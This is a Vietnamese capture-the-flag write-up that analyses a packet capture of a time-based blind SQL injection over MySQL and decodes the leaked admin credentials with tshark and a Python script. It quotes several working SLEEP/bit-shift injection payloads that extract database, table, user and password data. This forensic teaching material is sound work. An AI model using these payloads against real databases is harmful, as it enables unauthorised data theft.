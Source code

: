 # exfil

- Đầu tiên, phân tích sơ qua thì ta thấy file capture này đang mô phỏng lại quá trình Time Based Blind SQL Injection lên server thông qua protocol mysql
- Filter "mysql" ta sẽ thấy được hàng loạt các câu lệnh mysql injection được attacker gửi lên server
![1](1.png)

- Xét đoạn mysql sau:
![2](2.png)
```mysql
	SLEEP((SELECT ASCII(substr((SELECT group_concat(database_name) FROM mysql.innodb_table_stats), 1, 1)) >> 7 & 1) * 3)
```
- Xử lý luồng thực thi từ trong ra ngoài thì ta sẽ có:
	- SELECT group_concat(database_name) FROM mysql.innodb_table_stats
group_concat(database_name) lấy tất cả record của Field database_name từ bảng mysql.innodb_table_stats (bảng này chứa tên các bảng được khởi tạo).
	- substr(string,1,1) : lấy kí tự thứ 1 của string,ở đây attacker tăng dần index lên để dò vị trí các kí tự
	- ASCII (char): chuyển kí tự sang mã ASCII
	![ascii](ASCII.png)
	- ">> 7 & 1" đoạn này shift right 7, xong rồi and với 1
	- Nếu kết quả trả về từ substr() là NUL thì sẽ trả về ASCII(NUL) = 0, do đó 0 >> 7 = 0; 0 & 1 = 0
	- Mình lấy ví dụ 3 gói tin delay khoảng 3 (s), attacker dùng để brute database_name
	```mysql
		SLEEP((SELECT ASCII(substr((SELECT group_concat(database_name) FROM mysql.innodb_table_stats), 1, 1)) >> 6 & 1) * 3)

		SLEEP((SELECT ASCII(substr((SELECT group_concat(database_name) FROM mysql.innodb_table_stats), 1, 1)) >> 5 & 1) * 3)

		SLEEP((SELECT ASCII(substr((SELECT group_concat(database_name) FROM mysql.innodb_table_stats), 1, 1)) >> 2 & 1) * 3)

			97 >> 6  & 1 == 1 ==> SLEEP(3)
			97 >> 5  & 1 == 1 ==> SLEEP(3)
			97 >> 2  & 1 == 1 ==> SLEEP(3)

		Mã ASCII(97) = 'a' ==> chữ cái đầu tiên của database_name ở query trên là a
	```
		

- Vậy chỉ cần dựa vào thời gian delay giữa các cặp gói tin request/response attacker (trong TH đang xét khoảng 2-3s) có thể dễ dàng bruteforce được database_name.

- Ta tiếp tục xét đoạn mysql sau:
![3](3.png)

	```mysql
		SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f6d33313439), 1, 1)) >> 2 & 1) * 3)
	```
	- Sau khi đã bruteforce được database_name là 0x64625f6d33313439(db_m3149.users), attacker tiếp tục tìm những table do user khởi tạo

- Phân tích những gói tin mysql tiếp theo, ta sẽ thấy attacker đã brute thành công column user và password

```mysql
	SELECT SLEEP((SELECT ASCII(substr((SELECT user FROM db_m3149.users), 1, 1)) >> 6 & 1) * 3)
	SELECT SLEEP((SELECT ASCII(substr((SELECT password FROM db_m3149.users), 3, 1)) >> 5 & 1) * 3)
```

- Với cách tấn công như mình đã phân tích ở trên, attacker có thể lấy toàn bộ user,password từ phía server
- Nếu là người kiên nhẫn thì bạn cũng có thể tìm ra user với password và lấy được flag
- Nhưng ... mình là người chơi hệ code nên thôi code vậy
- OK, sau khi phân tích xong, việc chúng ta cần làm là xử lý dữ liệu
- Ban đầu mình filter mysql contains "db_m3149.users" để lọc ra dữ liệu cần thiết, sau đó export sang json để xử lý
nhưng có 1 vấn đề là sau khi export thì bị duplicate key (json parse sẽ reject những key trùng nhau và chỉ lấy key ở cuối)
![4](4.png)
![5](5.png)

- Mình bị stuck đoạn này khá lâu và tìm đến tshark (mình tạm gọi là phiên bản terminal của Wireshark)

```sh
	tshark -Y "mysql contains db_m3149.users" -r capture.pcap -Tjson --no-duplicate-keys -w result.json
	segment found (oh no !!!!)
	-- TRY AGAIN --
	tshark -Y "mysql contains db_m3149.users" -r capture.pcap -Tjson --no-duplicate-keys > result.json
	(Ờ mây zing, gút chóp em)
```

- Không dài dòng nữa code thôi :v

```python
import json,re

f = open('result.json','r').read()

j = json.loads(f)

user   = []
passwd = []

for i in j:
	if(float(i['_source']['layers']['frame']['frame.time_delta']) > 2):
		temp = i['_source']['layers']['mysql'][1]['mysql.field.name'] 
		_regextemp = re.findall(', (.*), 1\)\) >>(.*)&',temp)
		if re.search('SELECT user',temp):
			user.append(_regextemp)
		else:
			passwd.append(_regextemp)

def rev(arr): # vd: arr = [6,5,2] ==> chr((1 << 6) + (1 << 5) + (1 << 2)) = 'a'
	result = 0
	for i in arr:
		result += (2 ** int(i)) # 1 << i tương đương với 2 mũ i
	return chr(result)

def Decode(msg):
	current = 1
	result = ''
	temp = []
	for arr in msg:
		if(int(arr[0][0]) == current):
			temp.append(arr[0][1])
		else:
			result += rev(temp)
			temp = [] # reset temp
			temp.append(arr[0][1])
			current+=1
		if(arr == msg[-1]): 
			result += rev(temp)

	return result


print("[+] user :", Decode(user))
print("[+] password :", Decode(passwd))
```

- result :
```sh
[+] user : admin
[+] password : HTB{b1t_sh1ft1ng_3xf1l_1s_c00l}
```